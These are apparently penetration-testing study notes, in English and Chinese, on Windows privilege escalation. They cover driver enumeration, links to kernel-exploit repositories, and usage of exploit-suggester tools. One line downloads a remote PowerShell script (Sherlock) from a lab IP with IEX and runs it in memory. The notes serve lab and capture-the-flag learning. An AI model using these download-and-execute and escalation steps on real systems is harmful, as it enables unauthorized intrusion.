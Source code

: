 ```powershell
# Powershell env
# /v, verbose
# /fo csv, output format csv
# Select-Object, filter output/select specific object properties
powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path

# 查询指定devicename的driver, version/manufacturer
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

### version Exploits
+ trick-python to binary, python不可用时，使用pyinstaller将py exploit转为binary
+ 同linux，建议最后使用该方式，可能对server造成破坏。
+ 查看os name, OS version, System Type
+ 优先考虑三方driver漏洞
+ exploit（c code）编译，优先考虑同平台；mingw-64.bat

**exploit search**
+ more common exploit, https://pentesting.one2bla.me/privesc/windows-privesc/common-exploits
+ SecWiki/windows-kernel-exploits, [git](https://github.com/SecWiki/windows-kernel-exploits/tree/master/). 
+ [nomi-sec poc](https://github.com/nomi-sec/PoC-in-GitHub)
+ [abatch17-win exploits](https://github.com/abatchy17/WindowsExploits)

**exploit search**
+ powershell/winpeas not able to work, this is great. [windows exploit suggester python](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
+ wes scan, another python script to find kernel exploit. [wesng](https://github.com/bitsadmin/wesng)
+ post/windows/gather/enum_patches
+ post/multi/recon/local_exploit_suggester, if exploit failed try msf(check htb granny).

```bash
# win exp suggestor python2; result constains msxx-xxx
pip install xlrd
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2020-05-31-mssb.xls -i systeminfo.txt

## update db
./windows-exploit-suggester.py --update

## systeminfo
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

## possible exploits for an operating system can be used without hotfix data
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

# sherlock
Import-Module Sherlock.ps1 #本地

## 远程加载
IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.128/Powershell/Sherlock.ps1') 

Find-AllVulns #脚本提供了单个的Find函数，get-command查看

# wes.py, python3; result contains cve and kb, no msxx-xxx.
## install via pip is recommanded.
pip install wesng
wes sysinfo.txt --hide "Internet Explorer" Edge
```
